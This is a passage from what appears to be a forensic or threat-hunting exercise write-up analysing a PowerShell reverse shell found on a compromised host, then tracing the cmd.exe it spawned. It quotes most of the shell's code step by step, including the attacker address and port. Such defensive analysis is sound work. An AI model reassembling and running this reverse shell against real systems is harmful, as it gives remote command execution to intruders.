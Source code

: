 Analysis of the PowerShell script shows that it sets up a reverse shell. Here's a breakdown of what it does:

1. Sets the IP address and port of the attacker's machine (**`$a='192.168.1.198';$b=1337;`**).
2. Creates a TCP client object to connect back to the attacker's machine (**`$c=New-Object system.net.sockets.tcpclient;`**).
3. Sets up byte arrays for reading from the standard output and error of the command shell (**`$ob`** and **`$eb`**).
4. Creates a UTF-8 encoding object for handling text encoding (**`$e=new-object System.Text.UTF8Encoding;`**).
5. Creates a new process object for running the command shell (**`$p=New-Object System.Diagnostics.Process;`**).
6. Configures the process to redirect standard input, output, and error streams (**`$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;`**).
7. Starts the command shell process (**`$q=$p.Start();`**).
8. Sets up streams for reading from the command shell's standard output and error streams (**`$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;`**).
9. Sets up asynchronous reads for the standard output and error streams of the command shell (**`$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);`**).
10. Connects to the attacker's machine using the TCP client (**`$c.connect($a,$b);`**).
11. Sets up a loop to continuously read from the command shell's output streams and send data back to the attacker's machine over the TCP connection.

Overall, this script creates a reverse shell that allows an attacker to execute commands on the target machine and receive the output back on their own machine.

We now know that a reverse shell was established with the suspicious IP address.

Continuing to follow the bread crumbs we search to see if the PowerShell script that launched the reverse shell spawned any other activity and we see it did create another instance of cmd.exe.

![Untitled](Files/2-Exercises/image18.webp)

This is likely the cmd prompt that the attacker is using in the reverse shell. We confirm this by following the breadcrumbs one more time and see the commands that were ran from the attacker box.

![Untitled](Files/2-Exercises/image19.webp)
